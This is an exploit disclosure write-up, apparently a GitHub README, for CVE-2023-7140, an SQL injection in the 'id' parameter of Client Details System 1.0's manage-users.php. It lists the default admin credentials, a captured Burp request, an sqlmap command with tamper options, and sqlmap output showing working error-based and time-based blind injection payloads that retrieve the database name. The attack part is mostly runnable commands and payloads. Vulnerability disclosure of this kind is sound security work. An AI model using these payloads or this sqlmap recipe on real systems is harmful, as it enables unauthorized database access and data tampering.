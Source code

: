 # CVE-2023-7140_Client_Details_System-SQL_Injection_4
+ **Exploit Title:** CVE-2023-7140_Client_Details_System-SQL_Injection_4
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7140

## References: 
+ **CVE-2023-7140:** https://vuldb.com/?id.249143
+ https://www.cve.org/CVERecord?id=CVE-2023-7140
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7140
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7140

## Description:
Client Details System 1.0 allows SQL Injection via parameter 'id' in "/clientdetails/admin/manage-users.php?id=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Manage Users: "http://localhost/clientdetails/admin/manage-users.php"
+ Then click Delete button for any user: "http://localhost/clientdetails/admin/manage-users.php?id=1"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /clientdetails/admin/manage-users.php?id=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/manage-users.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

```

+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(3346,CONCAT(0x5c,0x716b6a7a71,(SELECT (ELT(3346=3346,1))),0x7171707171))-- gsCH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 9169 FROM (SELECT(SLEEP(5)))gCdu)-- FiYL
---
[17:48:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[17:48:57] [INFO] fetching current database
[17:48:57] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![4](https://github.com/h4md153v63n/CVEs/assets/5091265/2db1ab40-749f-4e0c-943b-fd362f079d0b)
